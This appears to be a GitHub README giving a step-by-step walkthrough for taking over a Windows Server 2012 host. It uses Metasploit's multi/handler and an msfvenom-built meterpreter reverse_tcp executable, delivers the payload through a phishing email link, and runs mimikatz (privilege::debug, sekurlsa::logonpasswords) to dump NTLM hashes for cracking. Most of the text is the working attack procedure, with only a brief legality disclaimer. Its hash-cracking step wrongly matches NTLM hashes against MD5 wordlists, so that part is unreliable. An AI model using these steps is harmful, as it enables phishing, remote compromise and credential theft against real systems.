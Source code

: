 ![image](https://user-images.githubusercontent.com/101802030/225642283-5574f2d4-dca9-4769-9fb3-b5c3181bd344.png)



This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  - 1 - sudo msfconsole <br>
  - 2 - use multi/handler <br>
  - 3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  - 4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  - 5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225851486-2fa0062f-5b31-435c-8b7d-9b492d37a588.png)
  
  # Step 2 : Create an exploit using msfvenom. To do so, you run the following command -
  - 1 - sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=8888 -f exe -o ~/Downloads/my_new_exploit.exe
  - And you should see the following output :
  
  ![image](https://user-images.githubusercontent.com/101802030/225945823-7e83ae7e-f211-4359-8b63-a72db0f21506.png)
  
  # Step 3 : Infect the victim machine with the exploit. In this case it will be a Windows Server 2012 edition. To do so, you may perform the following steps -
  - 1 - Host the exploit on a webserver, preferrably Linux. 
  - 2 - Create an e-mail containing a url link to the exploit
  - 3 - Send email to victim machine and have the link clicked on and run the executable. You should see the following screen on your server and/or C2
  
  ![image](https://user-images.githubusercontent.com/101802030/225951348-ec303cc6-1302-4ce9-bb98-a8710cf28dc6.png)
  
  # Step 4 : Download mimikatz and obtain ntlm hash. To do so, you use the following steps -
  - 1 - In your meterpreter session, type upload and the location of the file you would like to upload. In this case, it will be mimikatz. It could be a good idea to place it in your web servers root directory. See below example screenshot of this step being performed :
  
  ![image](https://user-images.githubusercontent.com/101802030/225954841-e3218cfe-4182-4a50-9935-e6114c380d5b.png)
  
  # Step 5 : Navigate to the infected hosts directory where you uploaded mimikatz to, in the previous step, and do the following -
  - 1 - Run mimikatz, by simply typing mimikatz.exe. Don't use tab(ever!). This should display the mimikatz console.
  - 2 - In order to obtain the ntlm hash, run the following command :
  - 2.1 - privilege::debug
  - 2.2 - sekurlsa::lognoPasswords
  - You should then see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225957540-0887f031-02b4-44da-8a83-fac4887ce0cf.png)
  
  - 3 - Scroll down until you see the following output, and copy the ntlm hash -
  
  ![image](https://user-images.githubusercontent.com/101802030/225959132-c3beb498-afb0-499f-80bf-5e7d08f1646e.png)
  
  # Step 6 : Compare the ntlm hash against a list of words that have been converted to md5 hashes -
  - 1 - Create a script to compare the hashes. I used C# to create one. This would mean that, you will need a Windows computer to successfully perform this step. 
  - Please note : You may create a script in any language of your choice, python would be ideal, since it is very user-friendly. You will also need a list a of words converted to md5 hashes saved as a .txt file. The command would be as follows :
  - 2 - hashmatcher.exe <ntlm hash> <hash_word_file.txt>
  
  - See screenshot below, of the comparison being performed. Enjoy!
  
  ![image](https://user-images.githubusercontent.com/101802030/225962918-b259f5f7-dcaf-4053-bc15-9f43ae23af59.png)
  
  - As you can see, the program I have created in this case, is called hashmatcher. Unfortunately it is not publicly available, however I am upon to discussing acquiring the software at a minimal cost. Preferrably in Indian rupees.
  
  - It would be important to note, that in creating the wordlist of md5 hashes, it would be best to ensure that the word is next to the hash when looking for which word it is, after you have found a match. To do so, you can create a script or a program. I used python. Again, this software is not publicly available but can be acquired at a small cost. See example list below :
  
  ![image](https://user-images.githubusercontent.com/101802030/225966196-e8fbf262-21d3-445c-a3c5-57aeab8c5b8a.png)

  
  
  Disclaimer : All activities showcased are performed within the confines of legal law. Please ensure that these steps are only carried out on authorized hosts or within a home environment.








  
  


